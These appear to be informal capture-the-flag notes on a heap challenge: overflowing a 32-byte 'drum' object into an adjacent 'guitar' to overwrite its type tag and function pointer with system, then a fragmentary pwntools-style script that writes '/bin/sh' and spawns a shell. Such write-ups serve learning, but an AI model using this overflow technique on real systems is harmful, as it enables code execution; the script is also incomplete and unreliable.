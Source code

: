 

Because there was no win function but there was a fail function, and there is a system call. binsh not in binary so we have to write it 
Write to heap because it's a heap challenge. There is a canary and no clear way to leak the canary.

display function checks for guitar and anything other than 31337 is a drum (binja)

in gdb 
borrow guitar
name
test
display instrument
name instrument
AAAAAAAAAAAAAAAA

GDB shows 31337 is now something else

binja 
name function
drums 32 are larger than guitars 16
31337 -> address (is guitar)

make drum into guitar 
borrow drum to make space 32 fill with overwrite the one next to 31337 to system 

write binsh to memory



binary
elf

p = process(binary)

p.recvuntil(b'>>> ')

p.sendline 1
p.recvuntil >>>

sendline 3
recvuntil >>>

sendline 0
recvuntil >>>

write binsh 
chain = b''
chain += b'/bin/sh\0'
chain += b'A' * 8 

chain += p64(0x31337) # make it a guitar
chain += elf.sym system 

recvl

chain +=  4 #display 

recvl
chain +=

send chain 
interactive 
